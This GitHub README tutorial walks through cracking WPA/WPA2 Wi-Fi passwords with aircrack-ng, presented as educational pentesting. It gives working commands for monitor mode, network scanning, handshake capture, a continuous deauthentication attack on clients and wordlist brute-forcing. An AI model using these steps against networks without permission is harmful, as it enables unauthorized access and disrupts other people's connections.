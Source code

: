 # Wi-Fi Cracking Tutorial: WPA/WPA2 Cracking with Aircrack-ng

## Introduction
This the next part of https://github.com/Officerwasu/Wi-Fi_pentesting 

Read that first.

**Disclaimer:** *This tutorial is for educational purposes only. Attempting to crack Wi-Fi networks for which you do not have explicit permission is illegal and unethical. Always respect privacy and operate within legal boundaries.*


## Prerequisites
List what the user needs before they start:
* **Hardware:**
    * Wireless network adapter capable of monitor mode and packet injection. 
* **Software:**
    * Any linux distro with sudo permissions.
    * aircrack-ng suite

## Setup
Instructions for any initial setup:
1.  Installing necessary tools.
    ```bash
    sudo apt update && sudo apt install aircrack-ng
    ```
2.  Ensuring your wireless adapter is recognized and can be put into monitor mode.
    * `ifconfig`
    * `ifconfig [wireless interface, eg wlan0]`
       * Example: ![Monitor Mode Activation](images/ifconfig.png)
    * `sudo airmon-ng start wlan0`
       * Example: ![Monitor Mode Activation](images/monitor_mode.png)

## Tutorial Steps

### Step 1: Scanning for Target Networks
1. `sudo airodump-ng wlan0`
2.  It will show you all the wifi networks in your vicinity
3.  What to look for BSSID, CH, ESSID of the target network.
     * Example: ![Airodump Scan](images/airodump.png)
    

### Step 2: Capturing the Handshake
1.  `sudo airodump-ng -c [channel] --bssid [BSSID] --write capture wlan0`.
    * Example: ![Handshake Capture](images/handshake.png)
      
2.  (Optional) Deauthenticating a client to speed up handshake capture.
    * `sudo aireplay-ng --deauth 0 -a [BSSID] wlan0`
        * Example:
        * ![Deauth Attack](images/deauth.png)

### Step 3: Cracking the Password
Brute-force attack.
1.  Using Aircrack-ng with a wordlist:
    *`aircrack-ng [capturefile.cap] -w [path to wordlist]`.
    * Example: ![Aircrack Success](images/aircrack.png)


### Step 4: [Cleanup]
1.  Well we found the key
2.  `sudo airmon-ng stop wlan0` and `sudo sservice NetworkManager restart`
     * Example: ![Network Restored](images/restored.png)

        
